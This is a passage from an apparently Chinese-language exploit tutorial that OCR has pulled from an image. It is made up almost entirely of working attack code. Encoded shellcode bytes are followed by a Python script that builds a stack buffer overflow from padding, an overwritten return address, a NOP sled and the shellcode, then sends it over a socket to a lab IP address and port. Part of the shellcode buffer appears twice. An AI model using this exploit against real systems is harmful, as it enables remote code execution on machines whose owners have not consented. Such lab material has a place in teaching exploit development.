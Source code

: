     buf += b"\x19\xcc\xa5\xc4\x46\xa4\xb7\x1a\x7d\xe7\x31\xfc"
    buf += b"\x17\x17\x14\x57\x80\x8e\x3d\x23\x31\x4e\xe8\x4e"
    buf += b"\x71\xc4\x1f\xaf\x3c\x2d\x55\xa3\xa9\xdd\x20\x99"
    buf += b"\x7c\xe1\x9e\xb5\xe3\x70\x45\x45\x6d\x69\xd2\x12"
    buf += b"\x3a\x5f\x2b\xf6\xd6\xc6\x85\xe4\x2a\x9e\xee\xac"
    buf += b"\xf0\x63\xf0\x2d\x74\xdf\xd6\x3d\x40\xe0\x52\x69"
    buf += b"\x1c\xb7\x0c\xc7\xda\x61\xff\xb1\xb4\xde\xa9\x55"
    buf += b"\x40\x2d\x6a\x23\x4d\x78\x1c\xcb\xfc\xd5\x59\xf4"
    buf += b"\x31\xb2\x6d\x8d\x2f\x22\x91\x44\xf4\x52\xd8\xc4"
    buf += b"\x5d\xfb\x85\x9d\xdf\x66\x36\x48\x23\x9f\xb5\x78"
    buf += b"\xdc\x64\xa5\x09\xd9\x21\x61\xe2\x93\x3a\x04\x04"
    buf += b"\x07\x3a\x0d"
    ```
    
2. 构造payload
    
    ```c
    import socket
    
    buf =  b""
    buf += b"\xbb\x49\x78\x0e\x0a\xdb\xda\xd9\x74\x24\xf4\x5e"
    buf += b"\x33\xc9\xb1\x52\x31\x5e\x12\x83\xee\xfc\x03\x17"
    buf += b"\x76\xec\xff\x5b\x6e\x72\xff\xa3\x6f\x13\x89\x46"
    buf += b"\x5e\x13\xed\x03\xf1\xa3\x65\x41\xfe\x48\x2b\x71"
    buf += b"\x75\x3c\xe4\x76\x3e\x8b\xd2\xb9\xbf\xa0\x27\xd8"
    buf += b"\x43\xbb\x7b\x3a\x7d\x74\x8e\x3b\xba\x69\x63\x69"
    buf += b"\x13\xe5\xd6\x9d\x10\xb3\xea\x16\x6a\x55\x6b\xcb"
    buf += b"\x3b\x54\x5a\x5a\x37\x0f\x7c\x5d\x94\x3b\x35\x45"
    buf += b"\xf9\x06\x8f\xfe\xc9\xfd\x0e\xd6\x03\xfd\xbd\x17"
    buf += b"\xac\x0c\xbf\x50\x0b\xef\xca\xa8\x6f\x92\xcc\x6f"
    buf += b"\x0d\x48\x58\x6b\xb5\x1b\xfa\x57\x47\xcf\x9d\x1c"
    buf += b"\x4b\xa4\xea\x7a\x48\x3b\x3e\xf1\x74\xb0\xc1\xd5"
    buf += b"\xfc\x82\xe5\xf1\xa5\x51\x87\xa0\x03\x37\xb8\xb2"
    buf += b"\xeb\xe8\x1c\xb9\x06\xfc\x2c\xe0\x4e\x31\x1d\x1a"
    buf += b"\x8f\x5d\x16\x69\xbd\xc2\x8c\xe5\x8d\x8b\x0a\xf2"
    buf += b"\xf2\xa1\xeb\x6c\x0d\x4a\x0c\xa5\xca\x1e\x5c\xdd"
    buf += b"\xfb\x1e\x37\x1d\x03\xcb\x98\x4d\xab\xa4\x58\x3d"
    buf += b"\x0b\x15\x31\x57\x84\x4a\x21\x58\x4e\xe3\xc8\xa3"
    buf += b"\x19\xcc\xa5\xc4\x46\xa4\xb7\x1a\x7d\xe7\x31\xfc"
    buf += b"\x17\x17\x14\x57\x80\x8e\x3d\x23\x31\x4e\xe8\x4e"
    buf += b"\x71\xc4\x1f\xaf\x3c\x2d\x55\xa3\xa9\xdd\x20\x99"
    buf += b"\x7c\xe1\x9e\xb5\xe3\x70\x45\x45\x6d\x69\xd2\x12"
    buf += b"\x3a\x5f\x2b\xf6\xd6\xc6\x85\xe4\x2a\x9e\xee\xac"
    buf += b"\xf0\x63\xf0\x2d\x74\xdf\xd6\x3d\x40\xe0\x52\x69"
    buf += b"\x1c\xb7\x0c\xc7\xda\x61\xff\xb1\xb4\xde\xa9\x55"
    buf += b"\x40\x2d\x6a\x23\x4d\x78\x1c\xcb\xfc\xd5\x59\xf4"
    buf += b"\x31\xb2\x6d\x8d\x2f\x22\x91\x44\xf4\x52\xd8\xc4"
    buf += b"\x5d\xfb\x85\x9d\xdf\x66\x36\x48\x23\x9f\xb5\x78"
    buf += b"\xdc\x64\xa5\x09\xd9\x21\x61\xe2\x93\x3a\x04\x04"
    buf += b"\x07\x3a\x0d"                           
                                                        
    a = b'A' * 272 + b'\x77\x17\x58\x34' * 4 + b'\x90' * 32 + buf                                               
    s = socket.socket()                                 
    s.connect(('192.168.111.154',1985))        
    s.send(a)
    s.close()
    ```
    